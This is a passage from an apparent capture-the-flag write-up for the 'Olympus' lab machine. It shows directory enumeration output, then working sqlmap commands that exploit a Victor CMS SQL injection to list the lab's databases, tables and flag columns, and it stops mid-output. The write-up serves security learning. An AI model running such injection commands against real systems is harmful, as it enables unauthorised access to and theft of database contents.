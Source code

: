 ```shell
/index.php            (Status: 200) [Size: 1948]
/index.php            (Status: 200) [Size: 1948]
/javascript           (Status: 301) [Size: 315] [--> http://olympus.thm/javascript/]
/phpmyadmin           (Status: 403) [Size: 276]                                     
/server-status        (Status: 403) [Size: 276]                                     
/static               (Status: 301) [Size: 311] [--> http://olympus.thm/static/]    
/~webmaster           (Status: 301) [Size: 315] [--> http://olympus.thm/~webmaster/]
                                                                                    
===============================================================
2022/09/22 22:33:58 Finished
===============================================================
```

The most interesting directory is `~webmaster`, so we can go to the URL: `http://olympus.thm/~webmaster/`


## Exploitation

### Flag 1


After trying the `searchsploit` command for exploits on Victor CMS, we identify `Victor CMS 1.0 - 'Search' SQL Injection` (`php/webapps/48734.txt`), which is a SQL Injection on `search` parameter. There is an exploit command with `sqlmap` tool. We first list the available databases, then its tables, then the columns of `flag` table, and finally dump the flag column.  

```shell
geobour98@kali:~$ searchsploit victor
[REDACTED]
Victor CMS 1.0 - 'Search' SQL Injection                                             | php/webapps/48734.txt
[REDACTED]
geobour98@kali:~$ searchsploit -m php/webapps/48734.txt
geobour98@kali:~$ sqlmap -u "http://olympus.thm/~webmaster/search.php" --data="search=1337*&submit=" --random-agent -v 3 --batch --dbs
[REDACTED]
available databases [6]:
[*] information_schema
[*] mysql
[*] olympus
[*] performance_schema
[*] phpmyadmin
[*] sys
[REDACTED]
geobour98@kali:~$ sqlmap -u "http://olympus.thm/~webmaster/search.php" --data="search=1337*&submit=" --random-agent -v 3 --batch -D olympus --tables
[REDACTED]
Database: olympus
[6 tables]
+------------+
| categories |
| chats      |
| comments   |
| flag       |
| posts      |
| users      |
+------------+
[REDACTED]
geobour98@kali:~$ sqlmap -u "http://olympus.thm/~webmaster/search.php" --data="search=1337*&submit=" --random-agent -v 3 --batch -D olympus -T flag --columns
[REDACTED]
Database: olympus
Table: flag
```